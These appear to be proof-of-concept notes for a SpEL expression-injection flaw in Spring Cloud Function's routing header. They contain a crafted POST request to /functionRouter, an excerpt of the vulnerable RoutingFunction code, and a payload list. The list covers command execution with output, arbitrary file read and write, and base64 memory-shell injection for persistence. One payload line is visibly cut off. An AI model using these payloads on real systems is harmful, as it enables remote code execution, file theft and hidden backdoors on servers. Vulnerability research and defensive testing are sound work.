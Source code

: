 
POC: 
```
POST /functionRouter HTTP/1.1
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("open -a Calculator")

aaa
```
Factor: 
```
RoutingFunction
private Object route(Object input, boolean originalInputIsPublisher) {
    Function function;
    if (input instanceof Message) {
        if (StringUtils.hasText((String)message.getHeaders().get("spring.cloud.function.definition"))) {...}
        else if (StringUtils.hasText((String)message.getHeaders().get("spring.cloud.function.routing-expression"))) {
            function = this.functionFromExpression((String)message.getHeaders().get("spring.cloud.function.routing-expression"), message);
            ...
        }...
}

private final StandardEvaluationContext evalContext = new StandardEvaluationContext();

private Function functionFromExpression(String routingExpression, Object input) {
    Expression expression = this.spelParser.parseExpression(routingExpression);
    String functionName = (String)expression.getValue(this.evalContext, input, String.class);
    ...
}
```
SpEL POC:  
```
// Command Execution
T(Runtime).getRuntime().exec(\"open -a Calculator\")
new java.lang.ProcessBuilder({\"/bin/sh\",\"-c\",\"open -a Calculator\"}).start()
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("open -a Calculator")
T(String).getClass().forName("java.lang.Runtime").getMethod("exec",T(String[])).invoke(T(String).getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(T(String).getClass().forName("java.lang.Runtime")),new String[]{"/bin/sh","-c","open -a Calculator"})
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='/bin/sh';s[1]='-c';s[2]='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);")
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("s=[3];s[0]='/bin/sh';s[1]='-c';s[2]='open -a Calculator';java.lang.Runtime.getRuntime().exec(s);"),)
nstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a...")),)

// Command Execution + Response
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("/bin/sh", "-c", "whoami").start().getInputStream(), "gbk")).readLine()
new java.util.Scanner(new java.lang.ProcessBuilder("/bin/sh", "-c", "ls", ".\\").start().getInputStream(), "GBK").useDelimiter("asdfasdf").next()

// Read or Write File
new String(T(java.nio.file.Files).readAllBytes(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/Users/axisx/Downloads/application.properties"))))
T(java.nio.file.Files).write(T(java.nio.file.Paths).get(T(java.net.URI).create("file:/C:/Users/1.txt")), 'hello'.getBytes(), T(java.nio.file.StandardOpenOption).WRITE)

// MemShell
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```